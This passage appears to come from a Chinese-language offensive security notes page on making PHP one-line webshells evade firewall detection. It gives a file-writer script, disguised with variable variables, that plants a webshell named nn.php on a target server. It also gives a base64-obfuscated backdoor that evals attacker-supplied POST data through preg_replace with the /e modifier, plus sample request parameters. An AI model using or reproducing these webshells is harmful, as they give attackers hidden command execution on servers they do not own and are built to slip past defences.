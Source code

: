 ```
<?php
if(isset($_POST['file'])){        //判断是否有输入参数
$d = 'data';     //定义一个字符
$$d = $_POST['text'];           //使用双$符=$data
$f = 'fp';
$$f = fopen($_POST['file'],'wb');   //$fp变量为，打开文件，并用二进制进行保存——wb表示文件权限为写入二进制代码
echo fwrite($fp,$data)?'save success':'save fail';       //写入文件，并判断是否写入成功
fclose($fp);
}
?>

让防火墙看不到我们的变量
此时打开这个php文件，post的参数时file=nn.php&text=一句话木马
然后会在当前目录下创建一个叫nn.php的文件并写入一句话木马
```

然后传参写入一句话木马即可：

![image-20220116203445854](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%9A%84%E5%85%8D%E6%9D%80.assets/image-20220116203445854.png)

然后目标的服务器上多了一个文件nn.php，文件里被写上了一句话木马

此时再去访问目标的nn.php，就可以执行命令了：

![image-20220116203605380](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%9A%84%E5%85%8D%E6%9D%80.assets/image-20220116203605380.png)



**使用正则表达式，用替换去掉中括号，然后解base64码执行:**

```
<?php 
@$a=$_POST['Hello'];
if(isset($a)){    //如果提交了参数

	//\\1指的是(.*)——这个斜杠跟一个数字是前向引用的意思。比如前面用括号捕获了一个子匹配，斜杠数字就表示和子匹配一样的内容，第一个子匹配就是\1，第二就是\2。
    
  //[@eval(base64_decode($_POST[z0]));]
   //使用正则表达式将[]里的东西(.*)替换成(.*)本身执行：
  //@eval(base64_decode($_POST[z0]));
  
  //[@eval(base64_decode($_POST[z0]));]
  //W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=
  
  @preg_replace("/\[(.*)\]/e", '\\1', base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10='));
 
}
?>

//使用方法：
Hello=aaa&z0=cGhwaW5mbygpOw==
```
